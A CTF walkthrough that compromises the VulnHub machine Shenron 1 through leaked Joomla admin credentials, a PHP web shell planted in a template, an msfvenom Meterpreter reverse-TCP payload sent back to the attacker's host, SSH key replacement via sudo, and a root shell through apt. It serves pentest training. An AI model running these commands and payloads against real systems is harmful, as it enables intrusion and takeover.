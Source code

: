 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-09-03 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
author: christ
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) Metasploit Framework<br>
### Environment Set up
To ensure success as a penetration tester, staying organised is crucial. Proper organisation streamlines documentation and tracking of progress. In this workshop, we will create a directory tree to systematically manage our work, with detailed descriptions of each directory's purpose available here.
![Working Dir](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform this using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```
![Service Scan](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH server and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache.
![Wep App Index Page](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In a real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing here using **ffuf** it can be done using your tool of preference.
Command used: ```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br>
![Directory Fuzzing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process can uncover two interesting directories which are *test* and *joomla*. The directory joomla already gives us a hint that the web application may be running the well-known CMS Joomla. Let's browse these directories chronologically as they appeared during our fuzzing.
Browsing to the *test* directory we notice that directory listing is enabled which is a vulnerability in itself. We can note this vulnerability in our **Findings** folder. 
![Directory Listing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

We can also see a file having an interesting name i.e. *password*, accessing the file from our command line reveals to us a pair of credentials belonging to a certain admin user.
![File Accessed](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember that we uncover credentials hidden in the comments of the password file so, let's try this credential against the Joomla instance to check if they are valid.
*NB: Login to the administrative interface on Joomla is done by default in the **administrator** directory.*
![Joomla Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
We can see that we successfully login as the admin. After a successful login, we move to Extensions -> Templates -> Templates were can now attempt to add a PHP shell to one PHP file in an unused template. Here, we will choose the protostar template and add our basic PHP shell ```system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name such as a hash for the GET parameter value. Anyone can access that file hence if a common name is used attackers may bruteforce it and also use it to establish their foothold in your client environment.*
![Template Modification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying our template we can now execute commands on our target. ```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br>
![RCE Test](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br>
![Payload Crafting](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
Now after crafting our payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on our target to download to download the payload to the /tmp directory.
![Download Operation](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing our payload we need to configure our listener in Metasploit.
![Metasploit Set Up](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting our listener we can now give execution permission to our payload and execute it.
![Payload Execution](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Going back to the listener, we can see that we caught a shell.
![Catching Shell](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
After obtaining a shell as the web user it's a good habit to search for the *web.config* file in the web root directory which may contain credentials for the database user. In this machine the file is named **web.config.txt**, and reading its content reveals to us the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user **jenny** who is also a user on the target machine so let's try to authenticate as the user jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

We have identified that the user is susceptible to vulnerabilities arising from password reuse. With this password, we can directly try to identify if the user has any sudo rights.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great we see that the user Jenny can perform copy operations by using Shenron identity. Since we observed an SSH service running during our service enumeration let's try to replace the SSH key of Shenron by using the privileges offered to us by the sudo command.
We can generate a key pair \(private, public\) on our attack host and upload the public key using the same method used above or upload it using our powerful meterpreter.
![SSH Key Gen](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key we can now replace the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo rights and then afterward attempting to use the private key to log in as Shenron
![SSH Key Replace](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
Great, we successfully logged in as Shenron we can now use this new account to read the user's flag and continue our enumeration of the system.
![User Flag](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string *password* in their names with the command ```find / -iname *password* 2>/dev/null```. We got a hit in the **/var/opt** directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-enum-2.png)
We can now use that password to read Shenron's sudo rights
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-2.png)
We can observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. Here the command ```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh``` can be used to obtain a root shell as demonstrated in the image.
![Root Access](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png) 
Great we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Great, in this walkthrough we have learned how a simple file listing vulnerability could be used to take over a machine. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up the walkthrough.






